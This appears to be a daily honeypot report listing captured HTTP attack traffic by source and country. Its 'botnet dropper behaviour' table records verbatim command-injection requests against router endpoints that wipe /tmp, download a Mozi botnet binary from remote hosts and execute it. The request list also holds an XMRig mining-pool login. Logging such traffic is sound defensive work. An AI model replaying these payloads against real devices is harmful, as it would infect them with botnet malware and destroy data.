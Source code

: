 ```yaml
---
title: "Report: 2025-06-01 "
date: 2025-06-01
desciption: "Report: 2025-06-01" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-01 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 10 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3619 requests were recorded during the day, originating from 5 different countries, with a peak of 2692 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| JP               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                        |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 124.131.137.180 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://124.131.137.180:49285/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 59.96.136.212   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.96.136.212:42274/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0   |
| 59.97.251.239   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.97.251.239:36473/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0   |
| 70.93.160.137   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://70.93.160.137:47151/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                  |
| 157.245.189.92  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://70.93.160.137:47151/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                  |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|-----:|----------------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   76 |                     2 | GET /relogin.rsp HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 1040 |                     1 | GET HTTP/1.1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 1064 |                     1 | \x00\x0E8\x0Bs\xC5\xA3bO\xE4\xC4\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 1074 |                     1 | {\x22id\x22:1,\x22method\x22:\x22eth_submitLogin\x22,\x22worker\x22:\x22igwrcvap\x22,\x22params\x22:[\x220xc6a54e2561cbf4beb2c1f8239a04a6a34c9ad8b1\x22,\x22x\x22],\x22jsonrpc\x22:\x222.0\x22}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 1075 |                     1 | {\x22id\x22:1,\x22jsonrpc\x22:\x222.0\x22,\x22method\x22:\x22login\x22,\x22params\x22:{\x22login\x22:\x2244HMW9DLQmCGg3yT8DNDwVUUkb4Nq92pb8vviaTCtFqM6aezn65KFCghuXnurvrAcLfnftm2VDpuUCQkjNF7QEqCAZt4MS9\x22,\x22pass\x22:\x22x\x22,\x22agent\x22:\x22XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019\x22,\x22algo\x22:[\x22cn/1\x22,\x22cn/2\x22,\x22cn/r\x22,\x22cn/fast\x22,\x22cn/half\x22,\x22cn/xao\x22,\x22cn/rto\x22,\x22cn/rwz\x22,\x22cn/zls\x22,\x22cn/double\x22,\x22cn/ccx\x22,\x22cn-lite/1\x22,\x22cn-heavy/0\x22,\x22cn-heavy/tube\x22,\x22cn-heavy/xhv\x22,\x22cn-pico\x22,\x22cn-pico/tlo\x22,\x22cn/upx2\x22,\x22rx/0\x22,\x22rx/wow\x22,\x22rx/arq\x22,\x22rx/graft\x22,\x22rx/sfx\x22,\x22rx/keva\x22,\x22argon2/chukwa\x22,\x22argon2/chukwav2\x22,\x22argon2/ninja\x22,\x22astrobwt\x22]}} |
| 1090 |                     1 | \x00\x0E8\xF6\x86\xA7\x8C\xA8\xEE\xAE\xF4\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 1111 |                     1 | \x00\x0E8\x14\xB4]9$\xC5Y\x8F\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 1134 |                     1 | \x00\x0E8q\xE7JP\xDA\x7F\x8F\x0E\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 1194 |                     1 | GET /phpmyadmin4.8.5/index.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 1203 |                     1 | POST /json_rpc HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  2692 | GB                 |
|  1 |                   206 | US                 |
|  2 |                   138 | BG                 |
|  3 |                   104 | CN                 |
|  4 |                    84 | JP                 |
|  5 |                    63 | NL                 |
|  6 |                    50 | DE                 |
|  7 |                    40 | ES                 |
|  8 |                    38 | FR                 |
|  9 |                    25 | PL                 |
| 10 |                    16 | IN                 |
| 11 |                    16 | GH                 |
| 12 |                    14 | SC                 |
| 13 |                    13 | CH                 |
| 14 |                    13 | AU                 |
| 15 |                     9 | CA                 |
| 16 |                     8 | IL                 |
| 17 |                     8 | BR                 |
| 18 |                     7 | HK                 |
| 19 |                     7 | UA                 |
| 20 |                     6 | RO                 |
| 21 |                     6 | RU                 |
| 22 |                     6 | LT                 |
| 23 |                     5 | ZA                 |
| 24 |                     5 | IR                 |
| 25 |                     5 | BE                 |
| 26 |                     5 | NG                 |
| 27 |                     4 | KR                 |
| 28 |                     4 | AO                 |
| 29 |                     4 | MN                 |
| 30 |                     3 | PT                 |
| 31 |                     2 | MC                 |
| 32 |                     2 | IE                 |
| 33 |                     2 | KW                 |
| 34 |                     2 | KZ                 |
| 35 |                     2 | VN                 |
| 36 |                     2 | ID                 |
| 37 |                     1 | EE                 |
| 38 |                     1 | TR                 |
| 39 |                     1 | SG                 |
